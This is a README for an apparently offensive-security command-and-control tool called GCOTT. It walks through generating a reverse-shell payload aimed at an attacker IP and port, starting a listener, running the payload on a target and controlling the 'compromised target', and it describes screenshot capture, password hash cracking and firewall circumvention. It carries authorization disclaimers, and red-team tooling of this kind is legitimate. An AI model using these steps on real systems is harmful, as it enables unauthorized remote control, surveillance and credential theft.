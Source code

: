 # 🔱 GCOTT - Advanced Remote Administration Framework 🔱 

[![License: MIT](https://img.shields.io/badge/License-MIT-cyan.svg)](https://opensource.org/licenses/MIT)
[![Python: 3.12+](https://img.shields.io/badge/Python-3.12+-blueviolet.svg)](https://www.python.org/downloads/)
[![Maintenance: Active](https://img.shields.io/badge/Maintenance-Active-success.svg)](https://github.com/yourusername/GCOTT)
[![OS](https://img.shields.io/badge/OS-Linux%20%7C%20Windows%20%7C%20macOS-orange.svg)]()



---
**GCOTT** (pronounced "jee-cott")
stands as a meticulously crafted command and control (C2) framework, engineered for the discerning security professional and the adept system administrator. This potent tool empowers authorized entities to forge secure conduits to remote systems, enabling the seamless execution of commands, the efficient transfer of digital assets, and the comprehensive management of target environments. **A solemn reminder: Employ this instrument only when explicit authorization has been granted. Unauthorized usage is strictly forbidden and carries legal ramifications.**

---

## 🛡️ Important Legal Notice 🛡️

**This software is provided solely for the purpose of ethical security assessments and legitimate system administration tasks. The developers and contributors disclaim any liability for its misuse or any damages it may cause. Ensure that you possess unequivocal authorization before deploying GCOTT on any system.**

---

## ✨ Key Features ✨

GCOTT boasts an array of sophisticated functionalities, including:

* **🎯 Interactive Command Console:** Unleash shell commands on the target system and witness real-time output, providing immediate insights and control.
* **📁 Effortless File Interchange:** Seamlessly upload and download critical files between your command center and the remote target.
* **🗂️ Intelligent Directory Navigation:** Explore, list, and traverse directories on the target's file system with intuitive commands.
* **🧠 Comprehensive System Intelligence:** Gather vital statistics about the target's operating system and user context.
* **🖥️ Visual Surveillance:** Capture and retrieve desktop snapshots from the target machine, offering a visual perspective of the environment.
* **💻 Immersive Shell Sessions:** Establish a fully interactive shell on the target, granting direct command-line access.
* **🛠️ Bespoke Payload Generation:** Craft custom Python payloads, tailoring the connection parameters with configurable host IP and port.
* **🔓 Robust Password Decryption Suite:** An integrated module designed to attempt the cracking of hashed passwords using a variety of algorithms and extensive wordlists.
* **🚪 Strategic Firewall Circumvention (Experimental):** Attempts to dynamically configure firewall rules to facilitate outbound communication pathways.
* **🎨 Elegant Command-Line Interface:** A user-friendly interface adorned with informative prompts and vibrant color-coded output.
* **🧩 Modular and Extensible Architecture:** A thoughtfully structured codebase, promoting ease of understanding and future enhancements.
---
## 🛠️ Installation Guide 🛠️

1.  **Acquire the Source Code:**
    ```bash
    git clone [repository URL]
    cd GCOTT
    ```

2.  **Verify Python Environment:**
    Ensure your system is equipped with Python 3.x:
    ```bash
    python3 --version
    ```

3.  **Install Dependencies:**
    Install the necessary libraries to unlock GCOTT's full potential:
    ```bash
    pip3 install -r requirements.txt
    ```
    *(Note: If a `requirements.txt` file is not present, you might need to manually install dependencies such as `art`, `termcolor`, and `pyautogui`.)*
---
## 🚀 Getting Started 🚀

GCOTT operates on a client-server model, comprising the **listener** (your attack platform) and the **payload** (deployed on the target).

### 1. Crafting the Payload (Attacker's Domain)

1.  Initiate the GCOTT framework:
    ```bash
    python3 gcott.py
    ```

2.  Navigate to the payload generation module:
    ```
    GCOTT -> generate
    ```

3.  Explore the available payload options:
    ```
    GCOTT@Payload -> list
    ```

4.  Select and configure your desired payload (e.g., a reverse shell connection):
    ```
    GCOTT@Payload -> set reverseShell.py
    GCOTT@reverseShell -> set host_ip [your_listening_ip]
    GCOTT@reverseShell -> set host_port [your_listening_port]
    ```
    Replace `[your_listening_ip]` with the network address of your attacking machine and `[your_listening_port]` with the designated port for the incoming connection (e.g., `5555`).

5.  Generate the executable payload file:
    ```
    GCOTT@reverseShell -> generate
    ```
    This action will produce a `payload.py` file within the GCOTT directory.
---
### 2. Establishing the Listener (Attacker's Command Center)

1.  Launch the GCOTT framework:
    ```bash
    python3 gcott.py
    ```

2.  Engage the listening mode:
    ```
    GCOTT -> listen
    ```

3.  Review or adjust the listening IP address and port (defaults to your machine's primary IP and port 5555):
    ```
    GCOTT@Listen -> show
    GCOTT@Listen -> set host_ip [your_listening_ip]
    GCOTT@Listen -> set host_port [your_listening_port]
    ```

4.  Activate the listener:
    ```
    GCOTT@Listen -> execute
    ```
    The listener will now stand vigilant, awaiting incoming connections from target systems.
---
### 3. Deploying the Payload (Target System)

1.  Transfer the generated `payload.py` file to the intended target machine through an authorized and secure method (e.g., encrypted file transfer, physical media).

2.  Execute the payload on the target system using the Python interpreter:
    ```bash
    python3 payload.py
    ```
    *(Note: The precise execution command might vary depending on the specific payload.)*
---
### 4. Interacting with the Compromised Target (Attacker's Control)

Upon successful execution of the payload, a connection will be forged with your listener. The GCOTT prompt will then display the target's IP address:
```
[target_ip]@GCOTT->
```
You can now leverage a suite of commands to interact with the target system. Employ the `help` or `-h` command to unveil the available options within the listening mode.
```
[target_ip]@GCOTT-> help
```
---
### Password Cracking Module

1.  Initiate the GCOTT framework:
    ```bash
    python3 gcott.py
    ```

2.  Access the password cracking module:
    ```
    GCOTT -> password
    ```

3.  Follow the interactive prompts to input the hashed password, the path to your password list, the hashing algorithm used, and your preferred randomness setting.
---
## 📂 Payloads Repository 📂

The `payloads` directory houses a collection of illustrative Python scripts that serve as payload examples. Feel free to contribute your own custom payloads to this repository, expanding GCOTT's capabilities.

---
## 🤝 Contributing 🤝

Contributions to GCOTT are highly valued. We encourage you to submit pull requests addressing bug fixes, introducing novel features, or enhancing the existing codebase.

---
## 📜 License 📜

This project operates under the terms of the MIT License.

---
## 🙏 Acknowledgements 🙏

* The `art` library for its artistic ASCII banner generation.
* The `termcolor` library for its vibrant terminal output coloring.
* The `pyautogui` library for its cross-platform GUI automation capabilities (powering the screenshot functionality).

---
**A final, crucial reminder: Employ this powerful tool with the utmost responsibility and within ethical boundaries, ensuring explicit authorization at all times.**

[⬆️ Go Top](#-gcott---advanced-remote-administration-framework--)
